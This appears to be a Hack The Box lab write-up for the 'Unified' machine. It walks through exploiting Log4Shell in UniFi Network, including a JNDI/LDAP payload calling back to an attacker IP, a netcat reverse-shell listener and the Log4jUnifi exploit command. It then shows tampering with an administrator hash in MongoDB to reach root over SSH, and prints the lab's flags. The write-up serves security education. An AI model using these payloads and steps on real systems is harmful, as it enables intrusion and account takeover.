

# ⭐ Hack The Box - Unified ⭐


---

## Machine Information

| Property | Value |
|----------|-------|
| **Machine** | Unified |
| **Difficulty** | Easy |
| **OS** | Linux |
| **IP** | `10.129.96.149` |
| **Main Service** | UniFi Network |
| **Version** | 6.4.54 |
| **Vulnerability** | CVE-2021-44228 |
| **Vulnerability Name** | Log4Shell |
| **Database** | MongoDB |
| **Database Port** | 27117 |
| **Initial Access** | Remote Code Execution |
| **Privilege Escalation** | Credential manipulation + SSH |
| **Status** | ✅ Complete |

---

# Overview

Unified is a Linux machine based on the **UniFi Network Application**.

The attack starts with network enumeration, where port `8443` exposes the UniFi management interface. The application is identified as **UniFi Network 6.4.54**, which is vulnerable to **CVE-2021-44228 (Log4Shell)**.

By exploiting the Log4Shell vulnerability through a JNDI/LDAP payload, it is possible to obtain a reverse shell as the `unifi` user.

Once inside the system, MongoDB is discovered running locally on port `27117`. The `ace` database contains UniFi user information, including password hashes.

The administrator's credentials can be modified through MongoDB. After logging into the UniFi administration panel with the modified credentials, the **Device Authentication** section reveals credentials that can be used to connect to the machine via SSH as `root`.

### Attack Chain

```text
┌──────────────────────┐
│      Nmap Scan       │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ UniFi Network 6.4.54 │
│      Port 8443       │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ CVE-2021-44228       │
│     Log4Shell        │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│    JNDI → LDAP       │
│     RogueJNDI        │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ Remote Code Execution│
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ Reverse Shell        │
│      unifi           │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ MongoDB :27117       │
│ Database: ace        │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ Modify Administrator │
│     Credentials      │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ UniFi Web Panel      │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ Device Authentication│
│     Credentials      │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ SSH → root           │
└──────────┬───────────┘
           │
           ▼
       ROOT FLAG
```

## 1. Enumeration

The first step is to identify all open TCP ports.

```bash
sudo nmap -sS -p- --min-rate 5000 -Pn 10.129.96.149
```

The scan reveals:

```
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt
```

The first four open ports are:

```
22, 6789, 8080, 8443
```

The most interesting service is port 8443, which appears to host a web application.

## 2. Identifying the Application

Opening the following URL in a browser:

```
https://10.129.96.149:8443
```

reveals the UniFi login interface.

The exact application title can also be confirmed from the terminal:

```
curl -k -L https://10.129.96.149:8443 | grep -i "<title>"
```

The response contains:
```
<title>UniFi Network</title>
```
## 3. Identifying the Version

The application version can be identified from the UniFi interface:
```
UniFi Network 6.4.54
```

This is important because the version is affected by a well-known vulnerability in Apache Log4j.

## 4. Identifying the Vulnerability

The vulnerability affecting this version is:
```
CVE-2021-44228
```

This is the well-known Log4Shell vulnerability.

Log4Shell affects vulnerable versions of Apache Log4j and can allow remote code execution through specially crafted JNDI lookup strings.

The basic concept is:

```
Attacker
   │
   │ Malicious JNDI string
   ▼
UniFi Network
   │
   │ Log4j processes the string
   ▼
JNDI
   │
   ▼
LDAP Server
   │
   ▼
Malicious Java Payload
   │
   ▼
Remote Code Execution
```

The vulnerability is associated with:

CVE: CVE-2021-44228
Name: Log4Shell
Type: Remote Code Execution (RCE)
MITRE ATT&CK: T1190 - Exploit Public-Facing Application
OWASP: A06:2021 - Vulnerable and Outdated Components

## 5. Understanding JNDI

The next question asks:

What protocol does JNDI leverage in the injection?

The answer is:
```
LDAP
```

JNDI (Java Naming and Directory Interface) can use LDAP to retrieve remote objects.

In this attack, the payload follows this general structure:
```
${jndi:ldap://ATTACKER_IP:1389/RESOURCE}
```
The vulnerable application processes the JNDI lookup and connects back to the attacker's LDAP server.

## 6. Log4jUnifi

Instead of manually building every part of the exploit, I used the following project:

Log4jUnifi
```
https://github.com/puzzlepeaches/Log4jUnifi
```

The repository automates the exploitation process using a malicious JNDI server and prepares the payload required to obtain a reverse shell.

Clone the repository:
```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi
```
Then:
```
cd Log4jUnifi
```
The repository contains:
```
Log4jUnifi
├── Dockerfile
├── exploit.py
├── README.md
├── requirements.txt
└── utils
    └── rogue-jndi
```
## 7. Compiling RogueJNDI

The exploit requires the RogueJNDI component to be compiled.

First, install Maven if necessary:
```
sudo apt update
sudo apt install maven
```
Then check:
```
mvn -version
```
From the root of the Log4jUnifi repository:
```
mvn package -f utils/rogue-jndi/
```
Initially, the rogue-jndi directory was empty because the repository had not been cloned with its submodules.

The correct cloning method is:
```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi
```
After cloning the submodule correctly, the build produced:
```
utils/rogue-jndi/target/
├── classes
├── generated-sources
├── maven-archiver
├── maven-status
├── original-RogueJndi-1.1.jar
└── RogueJndi-1.1.jar
```
## 8. Preparing the Reverse Shell

My VPN interface was:
```
ip a | grep tun0
```
which showed:
```
inet 10.10.14.116/23
```
Therefore, the callback IP is:
```
10.10.14.116
```
I prepared a listener on port 4444:
```
nc -lvnp 4444
```
## 9. Exploiting Log4Shell

From inside the Log4jUnifi directory, the exploit was executed with:
```
python3 exploit.py \
-u https://10.129.96.149:8443 \
-i 10.10.14.116 \
-p 4444
```
The tool generated a JNDI payload similar to:
```
${jndi:ldap://10.10.14.116:1389/o=tomcat}
```
The exploit output:
```
[*] Starting malicous JNDI Server
[*] Firing payload!
[*] Check for a callback!
```
The listener received the connection:
```
connect to [10.10.14.116] from (UNKNOWN) [10.129.96.149]
```
Checking the current user:
```
whoami
```
returned:
```
unifi
```
We now have a shell on the target as the unifi user.

Important: The exploit must be executed from the Log4jUnifi directory. Running exploit.py from another directory caused the exploit to fail because it relies on relative paths to the RogueJNDI component.

## 10. Initial Shell Enumeration

Checking the current directory:
```
pwd
/usr/lib/unifi
```
Listing the directory:
```
ls
bin
data
dl
lib
logs
run
webapps
work
```
Checking the current privileges:
```
id
```
```
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```
The system is running Ubuntu:
```
uname -a
Linux unified 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64
```

## 11. User Flag

The home directory contains a user named michael:
```
ls /home
```

```
michael
```

The flag can be read directly:
```
cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

User Flag
```
6ced1a6a89e666c0620cdb10262ba127
```

## 12. Discovering MongoDB

The next step is to enumerate running processes.
```
ps aux | grep mongo
```
This reveals:
```
unifi  67 ... bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 ...
```
MongoDB is therefore running locally on:
```
27117
```
The important part of the process is:
```
--port 27117
--bind_ip 127.0.0.1
```
This means MongoDB is only listening locally and is not directly exposed through the external network interface.

## 13. Enumerating MongoDB

Connect to MongoDB:
```
mongo --port 27117
```
The installed MongoDB version is:
```
MongoDB server version: 3.6.3
```
List the available databases:
```
show dbs
```
The result includes:
```
ace
ace_stat
admin
config
local
```
The default database used by UniFi applications is:
```
ace
```
Switch to it:
```
use ace
```

## 14. Enumerating UniFi Users

The admin collection contains UniFi user information.
```
db.admin.find()
```
The documents contain fields such as:
```
name
email
x_shadow
requires_new_password
```
For example:
```
"name" : "administrator"
"email" : "administrator@unified.htb"
"x_shadow" : "$6$..."
```
The ```x_shadow``` value is a password hash.

The ```$6$``` prefix indicates a SHA-512 crypt password hash with a salt.

## 15. Updating a MongoDB User

The function used to update users in MongoDB is:
```
update()
```
The important concept here is that the application stores the administrator's authentication information inside MongoDB.

Because the database can be modified from the unifi context, the administrator record can be updated with a new password hash.

A new SHA-512 crypt hash can be generated locally with:
```
mkpasswd -m sha-512 Pass123
```
Example:
```
$6$qU9fm/ty6zL/VOWY$zWdNy5pw6c6yDTzzhuRetQqoUynbEKxwbbsqzdNpPJkr/Kd6XfRuGhZr78kqJ3RSmc.o4aYSAGCEBHy/rIG.q0
```
The administrator's ```x_shadow value``` can then be replaced with the generated hash using MongoDB's ```update()``` function.

After updating the record, the UniFi web interface accepts the new credentials.


## 16. Accessing the UniFi Administration Panel

After modifying the administrator credentials, I returned to the UniFi login page:
```
https://10.129.96.149:8443
```
I was able to authenticate using the new administrator password.

Inside the UniFi administration panel, I navigated to:
```
Settings
    └── Device Authentication
```
This section contained:
```
Username: root
Password: [-]
```
These credentials provide the final step required to obtain root access.

## 17. SSH as Root

SSH is exposed on port 22.

Using the credentials obtained from the UniFi administration panel:
```
ssh root@10.129.96.149
```
After authentication:
```
whoami
```
returns:
```
root
```
We now have full administrative access to the machine.

## 18. Root Flag

The root user's home directory contains:
```
root.txt
```
Reading it:
```
cat /root/root.txt
e50bc93c75b634e4b272d2f771c33681
Root Flag
e50bc93c75b634e4b272d2f771c33681
```


## Tools Used

| Category | Tools |
|----------|-------|
| **Reconnaissance** | ping, Nmap, cURL, Browser |
| **Enumeration** | Nmap, ps, MongoDB Shell, Manual Web Enumeration |
| **Vulnerability Research** | CVE Research, Searchsploit |
| **Exploitation** | Log4jUnifi, RogueJNDI, JNDI/LDAP |
| **Traffic Interception** | Burp Suite |
| **Remote Access** | Netcat, SSH |
| **Database Access** | MongoDB Shell |
| **Credential Access** | MongoDB `x_shadow`, UniFi Device Authentication |
| **Privilege Escalation** | MongoDB `update()`, UniFi Administration Panel |
| **Post-Exploitation** | Linux Shell, MongoDB Enumeration |

##  Vulnerabilities & Techniques

| Category | Technique |
|----------|-----------|
| **Remote Code Execution** | Log4Shell — CVE-2021-44228 |
| **JNDI Injection** | JNDI / LDAP Injection |
| **Public-Facing Application** | MITRE ATT&CK T1190 |
| **Vulnerable Components** | OWASP A06:2021 |
| **Database Manipulation** | MongoDB `update()` |
| **Credential Manipulation** | Modification of UniFi administrator password hash |
| **Privilege Escalation** | UniFi Device Authentication credentials |
| **Remote Access** | SSH as `root` |

## Final Attack Path
```
Nmap
 │
 ├── 22/tcp   SSH
 ├── 6789/tcp
 ├── 8080/tcp
 ├── 8443/tcp ──────────────┐
 ├── 8843/tcp               │
 └── 8880/tcp               │
                            ▼
                    UniFi Network 6.4.54
                            │
                            ▼
                     CVE-2021-44228
                        Log4Shell
                            │
                            ▼
                       JNDI / LDAP
                            │
                            ▼
                       RogueJNDI
                            │
                            ▼
                          RCE
                            │
                            ▼
                     Reverse Shell
                            │
                            ▼
                      user: unifi
                            │
                            ▼
                  MongoDB :27117
                            │
                            ▼
                        database
                           ace
                            │
                            ▼
                  UniFi administrator
                     credentials
                            │
                            ▼
                    UniFi Web Panel
                            │
                            ▼
                 Device Authentication
                            │
                            ▼
                       root password
                            │
                            ▼
                       SSH :22
                            │
                            ▼
                         root
                            │
                            ▼
                       ROOT FLAG
```
## Conclusion

Unified was an excellent example of how multiple weaknesses and components can be chained together to achieve full system compromise.

The attack started with a vulnerable public-facing UniFi application and Log4Shell, but the compromise did not end with the reverse shell. Internal enumeration revealed MongoDB, which provided access to UniFi authentication data. Modifying the administrator credentials allowed access to the management panel, where device authentication credentials ultimately provided SSH access as root.

The most important lesson from this machine was not simply exploiting Log4Shell, but understanding how enumeration, vulnerability research, application internals, databases and credential reuse can be chained together into a complete attack path.

## ⚠️ Disclaimer

This writeup was created for educational purposes as part of a Hack The Box laboratory.

All techniques and tools described here were used against an authorized CTF/laboratory environment. Do not use these techniques against systems without explicit permission.
